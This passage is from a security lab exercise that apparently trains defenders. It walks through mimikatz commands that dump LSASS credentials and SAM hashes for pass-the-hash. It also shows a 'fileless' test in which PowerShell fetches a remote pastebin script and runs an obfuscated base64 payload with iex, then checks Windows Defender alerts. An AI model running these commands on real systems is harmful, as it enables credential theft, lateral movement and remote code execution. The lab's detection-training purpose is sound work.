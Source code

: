 9. You should see a prompt displaying the mimikatz version.  

### Task 2: Simulate Attack

1. In the mimikatz window, run the following commands to elevate the current process to have debug privledges:

    ```cmd
    privilege::debug
    ```

2. Run the following code to see what passwords are in `LSASS`:

    ```cmd
    sekurlsa::logonpasswords
    ```

3. Run the following code to dump the `LSASS` process memory to a file:

    ```cmd
    sekurlsa::minidump C:\temp\minidump_656.dmp
    ```

4. To dump the hashes in a format that can move from machine to machine (pass-the-hash), run the following:

    ```cmd
    lsadump::sam /SYSTEM:system.hive /SAM:sam.hive
    ```

5. If the mimiktaz tool (or similar) were to make it onto a machine with several credentials loaded, it would make it very easy for an attacker to move from the initially breached system to other systems

## Exercise 5: Antimalware Scan Interface (AMSI)

This exercise will show how to perform a file-less threat simulation.

### Task 1: Execute the Attack

1. Open a PowerShell window, run the following:

    ```PowerShell
    Invoke-Expression (Invoke-WebRequest https://pastebin.com/raw/JHhnFV8m)
    ```

2. The downloaded file looks like the following:

    ```PowerShell
    $base64 = "FHJ+YHoTZ1ZARxNgUl5DX1YJEwRWBAFQAFBWHgsFAlEeBwAACh4LBAcDHgNSUAIHCwdQAgALBRQ="
    $bytes = [Convert]::FromBase64String($base64)
    $string = -join ($bytes | % { [char] ($_ -bxor 0x33) })
    iex $string
    ```

3. Run the following

    ```PowerShell
    Get-WinEvent "Microsoft-Windows-Windows Defender/Operational" | Where-Object Id -eq 1116 | Format-List
    ```
